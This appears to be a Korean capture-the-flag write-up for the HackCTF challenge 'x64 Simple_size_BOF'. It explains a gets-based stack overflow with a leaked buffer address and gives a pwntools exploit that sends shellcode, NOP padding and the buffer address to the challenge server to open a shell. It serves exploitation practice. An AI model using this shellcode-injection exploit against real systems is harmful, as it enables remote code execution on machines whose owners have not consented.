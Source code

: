 ```yaml
---
title: "[ HackCTF ] x64 Simple_size_BOF"
date: 2023-03-07T14:57:26.817Z
categories: ['Wargame', 'HackCTF']
tags: ['HackCTF',"pwn"]
---
```


### **문제 분석**
---
![](/images/0cef7894-1abf-410b-97af-d0ec6b2a36d4-image.png)

gets에서 BOF 취약점을 찾을 수 있다.

또한 puts를 통해 buffer의 주소를 알려주고 있다.

<br>
<br>

### **문제 풀이**
---
buffer에 쉘코드를 넣고 gets에서 BOF를 통해 return address를 buffer로 덮어주면 된다.

<br>

payload는 다음과 같이 작성하면 된다.

```shellcode - dummy(27952(buffer size)+8(rbp)-length(shellcode)) + (buffer address)```

<br>

exploit 코드는 다음과 같다

```python
from pwn import *

p = remote('ctf.j0n9hyun.xyz', 3005)

p.recvuntil('buf: ')
buf = int(p.recv(14),16)

context.arch = 'amd64'
shellcode = asm(shellcraft.sh())

payload = ''
payload += shellcode
payload += '\x90'*(0x6d38-len(shellcode))
payload += p64(buf)

p.sendline(payload)
p.interactive()
```